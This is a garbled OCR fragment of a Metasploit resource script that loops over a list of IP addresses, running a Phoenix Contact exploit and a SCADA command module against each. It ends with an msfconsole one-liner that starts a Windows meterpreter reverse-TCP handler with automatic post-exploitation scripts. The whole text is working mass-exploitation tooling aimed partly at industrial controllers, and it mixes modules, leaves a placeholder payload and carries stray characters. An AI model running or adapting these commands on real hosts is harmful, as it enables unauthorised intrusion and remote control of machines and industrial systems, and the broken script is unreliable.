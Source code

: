 File.open(ip_list, 'rb').each_line do |ip|
  print_status("Trying against #{ip}")
  run_single("use exploit/multi/http/phoenix_exec")
  run_single("set RHOST #{ip}")
  run_single("set DisablePayloadHandler true")

  #
  # Set a payload that's the same as the handler.
  # You might also need to add more run_single commands to configure other
  # payload options.
  #
  run_single("set PAYLOAD [payload name]")
 run_single("use auxiliary/admin/scada/phoenix_command")
run_single("set RHOSTS #{framework.db.hosts.map(&:address).join(' ')}")
run_single("set AutoRunScript post/multi/manage/multi_post MACRO=/root/autoexploit.rc")
  run_single("run")
end
<resource script>
```

``` save -g```

# payload generation, open a new terminal:


msfconsole -qx "use exploit/multi/handler; set payload                                                                                                  windows/x64/meterpreter/reverse_tcp;set lhost eth0; set lport 4445; set EXITFUNC thread; set AutoRunScript post/multi/manage/multi_post; MACRO=/root/autoexploit.rc; set ExitOnSession false; exploit -j"




